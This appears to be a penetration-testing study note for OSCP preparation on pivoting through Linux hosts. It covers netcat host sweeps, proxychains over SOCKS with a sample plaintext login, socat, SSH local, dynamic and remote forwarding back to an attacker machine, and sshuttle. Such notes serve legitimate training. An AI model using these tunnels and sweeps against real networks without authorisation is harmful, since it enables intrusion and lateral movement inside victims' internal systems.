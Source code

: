 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/k-port-redirection-and-tunneling/1-linux-port-forwarding/","updated":"2024-01-05T11:36:20.380+01:00"}
---
```


------
## Tunneling Theory + SOCKS:

Port forwarding may need tty capabilities on target machine, so import with python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerate hosts to tunnel to without nmap:
```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

Confirm the tunnel is working from another shell by listing listening ports:
```
ss -ntplu
```

Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- -q silences any proxychains output
- Might use socks4 depending on versioning
- Won't work on statically-linked binaries
- Edit **tcp_read_time_out** and **tcp_connect_time_out** values in the conf-file for faster connections.
--------
## Socat port forwarding:
```
socat -ddd TCP-LISTEN:<listeningport>,fork TCP:<forkip>:<forkport>
```

------------
## SSH Local Port Forwarding:
```
ssh -v -N -L 0.0.0.0:2345:<forkip>:<forkport> <sshuser>@<passthroughip>
```

--------
## SSH Dynamic Port Forwarding:
- Allows for multiple end-sockets at wherever packets can be received
- Uses SOCKS as proxying protocol
- Only limit is that packets have to be properly formatted by SOCK-compatible client software
```
ssh -N -D 0.0.0.0:2345 <sshuser>@<passthroughip>
```

-------
## SSH Remote Port Forwarding
- Outgoing connections are often much less filtered
- If we can't control and bind to any ports on the target machine, instead we can SSH out and bind to a attacker SSH server
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Check server is listening:
```
sudo ss -ntplu
```
3. Set up SSH tunnel back to server on target:
```
ssh -N -R 127.0.0.1:2345:10.4.203.215:5432 crabfeather@192.168.45.180
```
4. Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
5. Win!

---------
## SSH Remote Dynamic Port Forwarding:
- Working as Remote PF with functionality of dynamic tunneling
- Available since OpenSSH 7.6 in Oct 2017 -- required client's version
- Works with -R flag but with only one socket, and only needing port which defaults to loopback address
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Set up SSH tunnel back to server on target:
```
ssh -N -R 2345 crabfeather@192.168.45.180
```
3. Win!

------
## SSHuttle:
- Turns a SSH connection into something similar to a VPN
- Requires root privs on SSH client and Python3 on SSH server
- Routes all types of traffic, including UDP and ICMP using iptables
- Also less packet loss (apparently)
```
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
